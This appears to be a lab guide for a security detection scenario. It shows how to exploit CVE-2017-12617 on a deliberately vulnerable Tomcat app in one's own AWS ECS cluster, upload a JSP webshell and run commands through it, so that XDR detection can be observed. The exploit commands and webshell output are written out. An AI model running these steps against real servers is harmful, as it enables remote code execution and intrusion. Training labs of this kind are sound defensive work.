


# Scenario: Detect Tomcat RCE

***Requires XDR for Containers***

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
    - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Checking if app server is vulnerable

Now you can check to see if the tomcat server is vulnerable.
If it is you should see something similar to the following:

```sh
cd ${ONEPATH}/exploits/tomcat-rce/
python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com
```

```ascii


   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com it's Vulnerable to CVE-2017-12617
http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp
```

If you point a browser at <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/Poc.jsp> you should get a test page with a bunch of "A" char's - that shows the exploit worked.

Vision One Observed Attack Techniques:



### Inject the exploit and run commands in the container from browser 

Next, inject the exploit and just hit `ENTER` at the shell prompt that comes up. (Ignore the error afterward)

```sh
python3 exploit.py -u http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com -p pwn
```

```ascii


   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ 
```

Either in the shell or from within your browser <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/pwn.jsp> test some commands like `whoami` or `dpkg -l`.

Your browser should present you a blank page with a form containing single field and a `Run` button. Type any Linux command you want and submit the form. The results will populate the page.

Vision One Observed Attack Techniques:


